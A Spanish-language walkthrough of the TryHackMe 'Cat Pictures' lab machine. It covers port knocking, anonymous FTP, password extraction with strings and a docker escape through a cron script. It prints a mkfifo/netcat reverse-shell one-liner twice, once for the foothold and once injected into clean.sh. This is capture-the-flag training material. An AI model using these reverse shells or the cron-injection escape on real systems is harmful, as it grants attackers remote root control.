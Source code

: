```yaml
---
title : "Cat Pictures - Write Up - Español"
date : 2021-07-03T16:56:05+02:00
author : "Lanfran02"
cover : "cover.jpeg"
useRelativeCover : true
description : "Máquina de nivel fácil en TryHackMe."
tags : ["nc","strings","knock","docker","TryHackMe"]
---
```


| Link | Nivel | Creador |
|------|-------|---------|
| [Aquí](https://tryhackme.com/room/catpictures)  | Fácil  |  [gamercat](https://tryhackme.com/p/gamercat)  |

## Reconocimiento

Usando `nmap` detectamos 3 puertos `21 corriendo FTP "filtrado", 21 corriendo SSH "abierto", 8080 corriendo una web.`

```bash
└──╼ $map 10.10.51.194
[sudo] password for lanfran: 
Starting Nmap 7.91 ( https://nmap.org ) at 2021-06-07 16:21 CEST
Nmap scan report for 10.10.51.194
Host is up (0.088s latency).
Not shown: 997 closed ports
PORT     STATE    SERVICE    VERSION
21/tcp   filtered ftp
22/tcp   open     ssh        OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 37:43:64:80:d3:5a:74:62:81:b7:80:6b:1a:23:d8:4a (RSA)
|   256 53:c6:82:ef:d2:77:33:ef:c1:3d:9c:15:13:54:0e:b2 (ECDSA)
|_  256 ba:97:c3:23:d4:f2:cc:08:2c:e1:2b:30:06:18:95:41 (ED25519)
8080/tcp filtered http-proxy
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 39.65 seconds
```
Buscando en el puerto 8080, encontramos una publicación que dice: `Knock knock! Magic numbers: 1111, 2222, 3333, 4444`(`¡Toc, toc! Números mágicos: 1111, 2222, 3333, 4444`)

Entonces tocamos esos puertos [Tal vez necesites ejecutar el comando 2-3 veces para que funcione :)]

`knock 10.10.51.194 1111 2222 3333 4444`

Ejecutando `nmap` nuevamente, podemos ver que ahora el puerto FTP está abierto, ¡y acepta al usuario anónimo!

```bash
└──╼ $map 10.10.153.159
[sudo] password for lanfran: 
Starting Nmap 7.91 ( https://nmap.org ) at 2021-06-07 17:04 CEST
Nmap scan report for 10.10.153.159
Host is up (0.16s latency).
Not shown: 997 closed ports
PORT     STATE SERVICE VERSION
21/tcp   open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 ftp      ftp           162 Apr 02 14:32 note.txt
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.9.3.250
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 37:43:64:80:d3:5a:74:62:81:b7:80:6b:1a:23:d8:4a (RSA)
|   256 53:c6:82:ef:d2:77:33:ef:c1:3d:9c:15:13:54:0e:b2 (ECDSA)
|_  256 ba:97:c3:23:d4:f2:cc:08:2c:e1:2b:30:06:18:95:41 (ED25519)
8080/tcp open  http    Apache httpd 2.4.46 ((Unix) OpenSSL/1.1.1d PHP/7.3.27)
| http-open-proxy: Potentially OPEN proxy.
|_Methods supported:CONNECTION
|_http-server-header: Apache/2.4.46 (Unix) OpenSSL/1.1.1d PHP/7.3.27
|_http-title: Cat Pictures - Index page
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 31.13 seconds
```
Así que iniciemos sesión en el FTP y veamos qué hay dentro.

```bash
╰─ lanfran@parrot ❯ ftp 10.10.51.194                                                                                               ─╯
Connected to 10.10.51.194.
220 (vsFTPd 3.0.3)
Name (10.10.51.194:lanfran): anonymous
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls -la
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    2 ftp      ftp          4096 Apr 02 14:32 .
drwxr-xr-x    2 ftp      ftp          4096 Apr 02 14:32 ..
-rw-r--r--    1 ftp      ftp           162 Apr 02 14:32 note.txt
226 Directory send OK.
ftp> get note.txt
local: note.txt remote: note.txt
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for note.txt (162 bytes).
226 Transfer complete.
162 bytes received in 0.00 secs (53.0171 kB/s)
ftp> 
```

Al leer la nota, obtenemos un nuevo puerto y el nombre de usuario:contraseña para iniciar sesión!

## Acceso inicial - Flag 1

Desafortunadamente, no es el puerto SSH, es un "servicio de shell interno" ...

Usemos `netcat` para iniciar sesión

```bash
╰─ lanfran@parrot ❯ nc 10.10.51.194 4420                                                                                           ─╯
INTERNAL SHELL SERVICE
please note: cd commands do not work at the moment, the developers are fixing it at the moment.
do not use ctrl-c
Please enter password:
sardinethecat
Password accepted
ls -la
total 56
drwxr-xr-x 10 1001 1001 4096 Apr  3 01:30 .
drwxr-xr-x 10 1001 1001 4096 Apr  3 01:30 ..
-rw-------  1 1001 1001   50 Apr  1 20:23 .bash_history
-rw-r--r--  1 1001 1001  220 Apr  1 20:21 .bash_logout
-rw-r--r--  1 1001 1001 3771 Apr  1 20:21 .bashrc
-rw-r--r--  1 1001 1001  807 Apr  1 20:21 .profile
drwxrwxr-x  2 1001 1001 4096 Apr  2 23:05 bin
drwxr-xr-x  2    0    0 4096 Apr  1 20:32 etc
drwxr-xr-x  3    0    0 4096 Apr  2 20:51 home
drwxr-xr-x  3    0    0 4096 Apr  2 22:53 lib
drwxr-xr-x  2    0    0 4096 Apr  1 20:28 lib64
drwxr-xr-x  2    0    0 4096 Apr  2 20:56 opt
drwxr-xr-x  2    0    0 4096 Apr  3 01:35 tmp
drwxr-xr-x  4    0    0 4096 Apr  2 22:43 usr
```
Ahora tenemos que obtener una shell reversa, you usé el codigo de mkfifo, ¡puedes usar otro!

Te recomiendo que uses [revshells.com](https://revshells.com) para generar los comandos para las shell reversas. Está creada y mantenida por la comunidad de CTF's!

`rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.9.6.21 1337 >/tmp/f`

![Foothold](foothold.png)

Recorriendo los directorios, encontramos un binario en `/home/catlover` llamado "runme". Lo descargué en mi máquina local y usé `strings` para obtener la contraseña.

```bash
╰─ lanfran@parrot ❯ strings runme                                                                                                  ─╯
/lib64/ld-linux-x86-64.so.2
[...]
r[REDACTED]a
Please enter yout password: 
Welcome, catlover! SSH key transfer queued! 
touch /tmp/gibmethesshkey
Access Denied
[...]
```
Genial! ¡Ahora podemos ejecutar el binario en la máquina e ingresar la contraseña!

```bash
# ./runme
Please enter yout password: [REDACTED]
Welcome, catlover! SSH key transfer queued!
# ls -la
total 32
drwxr-xr-x 2 0 0  4096 Jul  4 11:17 .
drwxr-xr-x 3 0 0  4096 Apr  2 20:51 ..
-rw-r--r-- 1 0 0  1675 Jul  4 11:17 id_rsa
-rwxr-xr-x 1 0 0 18856 Apr  3 01:35 runme
```
Copié el archivo id_rsa en mi máquina local y lo usé para entrar por SSH.

```bash
╰─ lanfran@parrot ❯ ssh catlover@10.10.51.194 -i id_rsa                                                                            ─╯
[...]
root@7546fa2336d6:/# cd /root
root@7546fa2336d6:/root# ls -la
total 24
drwx------ 1 root root 4096 Mar 25 16:28 .
drwxr-xr-x 1 root root 4096 Mar 25 16:18 ..
-rw-r--r-- 1 root root  570 Jan 31  2010 .bashrc
drwxr-xr-x 3 root root 4096 Mar 25 16:26 .local
-rw-r--r-- 1 root root  148 Aug 17  2015 .profile
-rw-r--r-- 1 root root   41 Mar 25 16:28 flag.txt
root@7546fa2336d6:/root# cat flag.txt 
7[REDACTED]9
```
## Flag 2 - Root

¡Genial, tenemos la primera bandera!

Ahora somos el usuario root de un contenedor en `docker`, por lo que debemos escalar al usuario root del host.

Al revisar los archivos y leer el crontab, ¡encontramos un cron script ejecutándose dentro de la máquina host!

¡Agregue un shell inverso y obtenga una shell reversa con root en el host!

```bash
root@7546fa2336d6:/root# cat /opt/clean/clean.sh
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.9.6.21 9999 >/tmp/f
```
Después de unos segundos, ¡obtenemos una shell reversa!

Consigue la bandera 2.
```bash
╰─ lanfran@parrot ❯ nc -nlvp 9999                                                                                                  ─╯
listening on [any] 9999 ...
connect to [10.9.6.21] from (UNKNOWN) [10.10.51.194] 57996
/bin/sh: 0: can't access tty; job control turned off
# id
uid=0(root) gid=0(root) groups=0(root)
# whoami
root
# cat /root/root.txt
Congrats!!!
Here is your flag:

[REDACTED]
```

¡Y hemos rooteado la máquina!

Eso es todo de mi parte, ¡espero que lo encuentre útil!